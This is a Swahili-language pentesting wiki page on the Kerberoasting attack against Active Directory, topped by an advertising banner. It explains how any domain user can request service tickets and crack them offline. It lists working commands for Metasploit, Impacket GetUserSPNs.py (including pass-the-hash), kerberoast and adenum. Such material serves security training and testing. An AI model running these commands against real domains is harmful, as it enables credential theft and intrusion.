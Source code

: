 # Kerberoast

<figure><img src="../../images/image (48).png" alt=""><figcaption></figcaption></figure>

\
Tumia [**Trickest**](https://trickest.com/?utm_source=hacktricks&utm_medium=text&utm_campaign=ppc&utm_content=kerberoast) kujenga na **kujiendesha kiotomatiki** kazi zinazotolewa na zana za jamii **zilizoendelea zaidi** duniani.\
Pata Ufikiaji Leo:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=kerberoast" %}

{{#include ../../banners/hacktricks-training.md}}

## Kerberoast

Kerberoasting inazingatia upatikanaji wa **TGS tickets**, hasa zile zinazohusiana na huduma zinazofanya kazi chini ya **akaunti za watumiaji** katika **Active Directory (AD)**, ikiondoa **akaunti za kompyuta**. Uthibitisho wa tiketi hizi unatumia funguo zinazotokana na **nywila za watumiaji**, ikiruhusu uwezekano wa **kuvunja akidi za nje**. Matumizi ya akaunti ya mtumiaji kama huduma yanaonyeshwa na mali isiyo tupu ya **"ServicePrincipalName"**.

Ili kutekeleza **Kerberoasting**, akaunti ya kikoa inayoweza kuomba **TGS tickets** ni muhimu; hata hivyo, mchakato huu hauhitaji **privileges maalum**, na hivyo inapatikana kwa yeyote mwenye **akidi halali za kikoa**.

### Mambo Muhimu:

- **Kerberoasting** inalenga **TGS tickets** za **huduma za akaunti za watumiaji** ndani ya **AD**.
- Tiketi zilizothibitishwa kwa funguo kutoka **nywila za watumiaji** zinaweza **kuvunjwa nje**.
- Huduma inatambulishwa na **ServicePrincipalName** ambayo si null.
- **Hakuna privileges maalum** zinazohitajika, ni lazima tu uwe na **akidi halali za kikoa**.

### **Shambulio**

> [!WARNING]
> **Zana za Kerberoasting** kwa kawaida huomba **`RC4 encryption`** wanapofanya shambulio na kuanzisha maombi ya TGS-REQ. Hii ni kwa sababu **RC4 ni** [**dhaifu**](https://www.stigviewer.com/stig/windows_10/2017-04-28/finding/V-63795) na rahisi kuvunjwa nje kwa kutumia zana kama Hashcat kuliko algorithimu nyingine za uthibitisho kama AES-128 na AES-256.\
> Hashi za RC4 (aina 23) huanza na **`$krb5tgs$23$*`** wakati AES-256(aina 18) huanza na **`$krb5tgs$18$*`**.`

#### **Linux**
```bash
# Metasploit framework
msf> use auxiliary/gather/get_user_spns
# Impacket
GetUserSPNs.py -request -dc-ip <DC_IP> <DOMAIN.FULL>/<USERNAME> -outputfile hashes.kerberoast # Password will be prompted
GetUserSPNs.py -request -dc-ip <DC_IP> -hashes <LMHASH>:<NTHASH> <DOMAIN>/<USERNAME> -outputfile hashes.kerberoast
# kerberoast: https://github.com/skelsec/kerberoast
kerberoast ldap spn 'ldap+ntlm-password://<DOMAIN.FULL>\<USERNAME>:<PASSWORD>@<DC_IP>' -o kerberoastable # 1. Enumerate kerberoastable users
kerberoast spnroast 'kerberos+password://<DOMAIN.FULL>\<USERNAME>:<PASSWORD>@<DC_IP>' -t kerberoastable_spn_users.txt -o kerberoast.hashes # 2. Dump hashes
```
Vifaa vingi vinavyojumuisha dump ya watumiaji wanaoweza kerberoast:
```bash
# ADenum: https://github.com/SecuProject/ADenum
adenum -d <DOMAIN.FULL> -ip <DC_IP> -u <USERNAME> -p <PASSWORD> -c
```
